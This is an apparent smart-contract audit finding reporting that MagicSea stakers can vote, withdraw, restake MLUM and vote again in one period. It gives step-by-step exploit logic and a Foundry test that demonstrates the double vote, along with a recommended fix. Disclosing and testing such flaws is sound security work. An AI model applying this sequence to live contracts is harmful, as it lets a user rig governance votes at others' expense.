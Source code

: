 Slow Maroon Gibbon

High

# Double voting is possible if the user withdraws and reopens a position within the voting duration.

## Summary
A staked user can withdraw his MLUM after voting and restake it to vote again, resulting in double voting. 
## Vulnerability Detail
Users who have an MLUM staked in the [`[mlumStaking.sol](http://mlumstaking.aol/)`](http://mlumstaking.aol/) can vote in the `voter.sol`. The voting weight depends on the staked amount.

To exploit this, a user can stake before the voting begins and set the duration to the minimum required lock duration. After the voting period starts, the user can vote with their weight, withdraw the staked tokens, restake them, and vote again in the same pool within the same periodId.

## POC

 Here is a simple POC on how an attacker can do that. 

1. Alice created a 2-week position with 1e18 MLUM
2. 13 days pass and Alice 1 day away from his expiry 
3. New voting period starts with 2 weeks duration 
4.  Alice vote 
5. After 1 days Alice withdraw his MLUM
6. Restake 
7. Vote Again 

Paste this test in `Voter.t.sol`

```solidity
  function testVoteTwice() public {
        _createPosition(ALICE);
        vm.warp(block.timestamp + 13 days); // 13 days
        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        vm.startPrank(ALICE);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());

        vm.warp(block.timestamp + 1 days);

        vm.startPrank(ALICE);
        _pool.withdrawFromPosition(1, 1 ether);

        _createPosition(ALICE);
        vm.startPrank(ALICE);
        _voter.vote(2, _getDummyPools(), _getDeltaAmounts());
    }
```

## Impact
Double voting is breaking the fairness of the voting system. A malicious actor can use this to promote their pool in an unethical way. 

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/Voter.sol#L153

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L496

## Tool used

Manual Review

## Recommendation
Do not allow stakers to withdraw from their position if they are already voting.
